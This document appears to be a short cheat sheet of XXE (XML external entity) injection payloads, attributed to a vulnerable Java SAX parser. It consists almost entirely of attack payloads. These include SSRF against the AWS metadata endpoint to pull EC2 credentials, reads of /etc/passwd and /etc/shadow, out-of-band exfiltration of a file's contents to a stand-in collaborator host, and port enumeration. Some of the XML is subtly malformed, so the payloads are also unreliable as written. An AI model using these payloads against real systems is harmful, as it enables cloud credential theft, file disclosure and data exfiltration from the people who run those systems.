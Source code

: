 
# Direct fetch output on screen

- SSRF (AWS EC2 credentials)
```
<!DOCTYPE foo [
    <!ENTITY exploit SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance">
]>
...
<sometag>&exploit;</sometag>

- Path traversal and fetching files

<!DOCTYPE foo [<!ENTITY exploit SYSTEM "file:///etc/passwd">]>
...
<sometag>&exploit<sometag>
...
```

# Out of Bound XXE, confirmed using Collaborator
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY % xxe SYSTEM "file:///etc/hostname">
    <!ENTITY oobxxe SYSTEM "http://kisijrhufnshbsd.yourcollaboraterserverdomain/?%xxe;">]>
...
...
<Sometag>&oobxxe</Sometag>
...
...
```

# Network enumeration (burp intruder)
```
<?xml version="1.0>
<!DOCTYPE foo [
<!ENTITY portscan SYSTEM "ftp://localhost"$$">    
]>
<foo>START_&portscan;_END</foo>
```

# Path Traversal
```
<?xml version="1.0>
<!DOCTYPE foo [
<!ENTITY LFI SYSTEM "file:///etc/shadow/">    
]>
<foo>START_&LFI;_END</foo>
```


Note - these were found due to vulnerable JAVA SAX XML parser